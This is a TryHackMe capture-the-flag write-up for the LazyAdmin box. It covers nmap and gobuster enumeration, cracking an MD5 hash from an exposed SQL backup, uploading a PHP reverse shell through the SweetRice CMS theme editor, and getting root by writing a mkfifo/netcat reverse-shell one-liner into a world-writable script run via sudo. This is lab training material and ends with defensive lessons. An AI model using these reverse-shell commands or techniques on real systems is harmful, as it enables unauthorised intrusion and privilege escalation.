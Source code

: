# LazyAdmin - TryHackMe Report

![Banner](./Screenshots/banner.png)

## Target Information
- **Name:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)
- **Platform:** TryHackMe
- **Difficulty:** Easy
- **Creator:** [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

This box challenges you to exploit a vulnerable web application, gain initial access through a compromised CMS, and escalate privileges by exploiting misconfigured permissions. Test your enumeration, web exploitation, and privilege escalation skills in this beginner-friendly room.

---

## Enumeration

### **Nmap Scan**

```bash
nmap -sS -sC -sV -T4 -p- 10.10.213.231 -oN /home/kali/boxes/lazyadmin/nmap.txt
```

**Flags Explained:**
- `-sS`: SYN Scan (stealth)
- `-sC`: Run default scripts
- `-sV`: Version detection
- `-T4`: Aggressive timing
- `-p-`: Scan all 65,535 ports
- `-oN`: Save output to a file

![Nmap Scan](./Screenshots/nmap.png)

**Results:** Ports **22 (SSH)** and **80 (HTTP)** are open.  

---

### **Gobuster - Directory Enumeration**

```bash
gobuster dir -u http://10.10.213.231 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,xml -o /home/kali/boxes/lazyadmin/gobuster.txt
```

**Flags Explained:**
- `-w`: Wordlist used for brute-forcing
- `-t`: Number of threads
- `-x`: File extensions searched (.php, .html, .xml)
- `-o`: Output file

![Gobuster Scan](./Screenshots/gobuster.png)

**Findings:**
- **`/content`** → Leads to a **SweetRice CMS** installation.
- **`/content/as`** → **Login page** found.
- **`/content/inc/mysql_backup/`** → Downloadable MySQL backup file.

![SweetRice Login](./Screenshots/sweet_rice_login.png)
![/SQL Backup](./Screenshots/mysqlbackup.png)

---

## Exploitation

### **Hash Identification & Cracking**

Extracted a **credential hash** from the MySQL backup file:

![/SQL Hash](./Screenshots/sql_backup.png)

```bash
haiti [hash]
```

**Result:** Hash identified as **MD5**.

Cracked using **Hashcat**:

```bash
hashcat -m 0 [hash] /usr/share/wordlists/rockyou.txt
```

**Password Recovered:** ✅

![Hash Cracked](./Screenshots/hash_cracked.png)

---

## Gaining Access

- **SSH login failed** with recovered credentials.
- **Successfully logged into SweetRice CMS Admin Panel.**

![CMS Login](./Screenshots/cms_login.png)

Uploaded a **reverse PHP shell** via the **theme editor**:

![Reverse PHP Shell](./Screenshots/reverse_php_shell.png)

Set up a **Netcat listener**:

```bash
nc -lvnp 4444
```

Executed shell payload → **Reverse shell obtained!**

![Reverse Shell Executed](./Screenshots/reverse+shell_exec.png)

---

## **Post-Exploitation: Basic Enumeration**

Upgraded shell for better usability:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![Stable Shell](./Screenshots/stable_shell.png)

Performed system enumeration:

```bash
whoami && id
uname -a
cat /etc/os-release
sudo -l
```

**Findings:**
- User: `www-data`
- OS: Ubuntu 16.04.6 LTS
- Kernel: 4.15.0-70-generic
- **Sudo Privileges:**
  - `(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`

This privilege allows executing the `backup.pl` script as **root** without a password, presenting a potential **privilege escalation** path.

![/System Info](./Screenshots/system_info.png)
![Sudo Permissions](./Screenshots/sudo-l1.png)

---

## **Privilege Escalation**

Located **backup.pl** and **user.txt**:

```bash
cd /home/itguy
ls -la
cat user.txt
```

![/User Flag](./Screenshots/flag1.png)

Found **backup.pl** executing `/etc/copy.sh`:

```bash
cat backup.pl
```

```bash
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

Checked **copy.sh** permissions → **Writable by others!**

```bash
ls -la /etc/copy.sh
```

```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Injected a reverse shell payload:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP Address] 6666 >/tmp/f' > /etc/copy.sh
```

![Modified Copy.sh](./Screenshots/reverse_shell2.png)

Set up Netcat listener:

```bash
nc -lvnp 6666
```

Executed backup script to trigger shell:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Privilege Escalation](./Screenshots/backuppl.png)

Successfully gained **root access**!

```bash
whoami && id
```

![Root Access](./Screenshots/id_root.png)

---

### **Root Flag**

```bash
cd /root
ls -la
cat root.txt
```

```
THM{REDACTED}
```

![Root Flag](./Screenshots/rootflag.png)

---

## **Tools Used**

- **Nmap** → Network scanning
- **Gobuster** → Directory enumeration
- **Hashcat** → Password cracking
- **[Pentest Monkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)** → Gaining access
- **Linux Enumeration Commands** → Privilege escalation

---

## **Conclusion**

### **Successfully Achieved:**
- Gained **initial access** via SweetRice CMS.
- Escalated privileges through misconfigured sudo permissions.
- Captured **both user and root flags**.

### **Key Security Issues Identified:**
- **Weak Password Management:** The `manager` account used `Password123`, easily cracked.
- **Misconfigured Permissions:** `backup.pl` allowed privilege escalation due to incorrect sudo permissions.
- **Lack of Input Sanitization:** Uploading and executing a PHP shell highlights the importance of input validation.

### **Final Thoughts**
- **Always enforce strong password policies.**
- **Restrict script execution permissions.**
- **Sanitise and validate user inputs to prevent web-based attacks.**

---
